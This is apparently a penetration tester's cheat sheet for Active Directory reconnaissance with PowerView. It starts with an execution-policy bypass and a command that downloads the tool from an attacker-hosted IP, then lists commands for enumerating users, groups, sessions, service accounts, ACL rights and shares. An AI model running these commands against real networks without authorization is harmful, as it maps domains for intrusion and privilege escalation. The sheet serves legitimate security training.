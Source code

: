### Setup 
Docu: https://powersploit.readthedocs.io/en/latest/Recon/
```
powershell -ep bypass

iwr -uri http://192.168.45.154:8000/powerview.ps1 -Outfile powerview.ps1

Import-Module .\PowerView.ps1
```

### Commands

#### Enumerating Domain
```
Get-NetDomain
```
#### Enumerating Users
```
Get-NetUser
Get-NetUser <username>
Get-NetUser | select <attribute>,<attribute>,<attribute>
```
#### Enumerating Groups
```
Get-NetGroup
Get-NetGroup <groupname>
Get-NetGroup | select <attribute>,<attribute>,<attribute>
Get-NetGroup | Where-Object { $_.member -like "<user>*" } | Select-Object cn, member - show all groups member is a apart of.
```
#### Enumerating Computer Information
```
Get-NetComputer
Get-NetComputer | select dnshostname,<attribute>
```

#### Understanding Privileges
```
Find-LocalAdminAccess - attempts to find any computer that the current user has administrative privileges on.
Get-NetSession -ComputerName <computername> - attempts identify which user is logged into what computer.
.\PsLoggedon.exe [\\<computername>](file://%3ccomputername%3e) - enumerates who is logged into a computer.
```
#### Service Accounts
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

#### Enumerating Object Permissions
```
Get-ObjectAcl -Identity <users> - enumerates all objects that has an ACL entry for a particular user.
Convert-SidToName <SID>

#check if user has GeneralAll property this is the highest privilege within AD.
Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-InterestingDomainAcl | select IdentityReferenceName,ActiveDirectoryRights,AceType,ObjectDN,SecurityIdentifier | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"}
```

#### Enumerating Shares
```
Find-DomainShare
net view \\<hostname\ip>
ls \\<hostname>\<sharename>\
cat \\<hostname>\<sharename>\
```